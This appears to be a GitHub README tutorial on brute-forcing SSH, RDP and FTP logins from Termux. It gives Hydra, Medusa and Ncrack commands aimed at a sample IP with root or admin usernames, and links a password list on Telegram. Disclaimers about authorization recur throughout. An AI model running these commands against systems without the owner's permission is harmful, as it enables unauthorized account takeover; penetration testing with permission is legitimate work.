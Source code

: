 # Termux-Bruteforce
[How to Bruteforce a Network Services such as SSH, HTTP, FTP, Telnet, IMAP, SMB]


PASSWORD.TXT file can be found in Telegram Channel with link 👇👇
https://t.me/VPNConFiles/1330

Or Download directly from here
[Download](Password_.txt)

As a Novice, I cannot promote or suggest any illegal or unethical activities that may harm any individual or organization. It is important to use technology, tools, and information only for ethical and lawful purposes, in compliance with local and international laws and regulations. It is recommended to use tools like Bruteforce only for authorized and legitimate purposes, such as testing the security of your own systems or with written permission from the systems owners. Using such tools for any illegal or unethical purposes without proper authorization can result in severe legal penalties and consequences.






If you have the appropriate authorization to perform a bruteforce attack on a system, then you can use the following tools on Termux:

**1. Hydra:** It is a fast and flexible login cracker which supports various protocols, including *HTTP, FTP, Telnet, IMAP*, etc.


**2. Medusa:** It is a command-line tool that runs on Linux, macOS, and Termux. It is designed to test the security of password-protected services, such as *FTP, SSH, IMAP*, etc.


**3. Ncrack:** It is a high-speed network authentication cracking tool which can be used to test the security of network services, such as *SSH, HTTP, SMB*, etc.


However, please note that bruteforcing any system without proper authorization is illegal and unethical and can result in severe legal penalties and consequences. Ensure that you have written permission from the systems owners to test the security.



**Here are some examples of using Ncrack on Termux:**



[How to Setup NCRACK in Termux](https://github.com/okyerejosephokraku60/Ncrack)

**1. Ncrack with SSH:**
To perform a bruteforce attack on an SSH server with Ncrack, use the following command:

```
ncrack -v -p 22 --user <username> -P <passwords_file> <target_ip>
```

For example, to attack an SSH server with IP address 192.168.1.100 and username root, with a password list in the file passwords.txt, use the following command:

```
ncrack -v -p 22 --user root -P passwords.txt 192.168.1.100
```

**2. Ncrack with RDP:**
To perform a bruteforce attack on an RDP server with Ncrack, use the following command:

```
ncrack -v -p 3389 --user <username> -P <passwords_file> <target_ip>
```

For example, to attack an RDP server with IP address 192.168.1.100 and username administrator, with a password list in the file passwords.txt, use the following command:

```
ncrack -v -p 3389 --user administrator -P passwords.txt 192.168.1.100
```

Note that these commands are for authorized testing purposes only. Using them for any unauthorized activity is illegal and unethical.







**Here are some examples of using Hydra on Termux:**

**1. Hydra with SSH:**
To perform a bruteforce attack on an SSH server with Hydra, use the following command:

```
hydra -l <username> -P <passwords_file> ssh://<target_ip>
```

For example, to attack an SSH server with IP address 192.168.1.100 and username root, with a password list in the file passwords.txt, use the following command:

```
hydra -l root -P passwords.txt ssh://192.168.1.100
```

**2. Hydra with FTP:**
To perform a bruteforce attack on an FTP server with Hydra, use the following command:

```
hydra -l <username> -P <passwords_file> ftp://<target_ip>
```

For example, to attack an FTP server with IP address 192.168.1.100 and username admin, with a password list in the file passwords.txt, use the following command:

```
hydra -l admin -P passwords.txt ftp://192.168.1.100
```

Note that these commands are for authorized testing purposes only. Using them for any unauthorized activity is illegal and unethical.









**Here are some examples of using Medusa on Termux:**

**1. Medusa with SSH:**
To perform a brute-force attack on an SSH server with Medusa, use the following command:

```
medusa -u <username> -P <passwords_file> -h <target_ip> -M ssh
```

For example, to attack an SSH server with IP address 192.168.1.100 and username root, with a password list in the file passwords.txt, use the following command:

```
medusa -u root -P passwords.txt -h 192.168.1.100 -M ssh
```

**2. Medusa with FTP:**
To perform a brute-force attack on an FTP server with Medusa, use the following command:

```
medusa -u <username> -P <passwords_file> -h <target_ip> -M ftp
```

For example, to attack an FTP server with IP address 192.168.1.100 and username admin, with a password list in the file passwords.txt, use the following command:

```
medusa -u admin -P passwords.txt -h 192.168.1.100 -M ftp
```

Note that these commands are for authorized testing purposes only. Using them for any unauthorized activity is illegal and unethical.
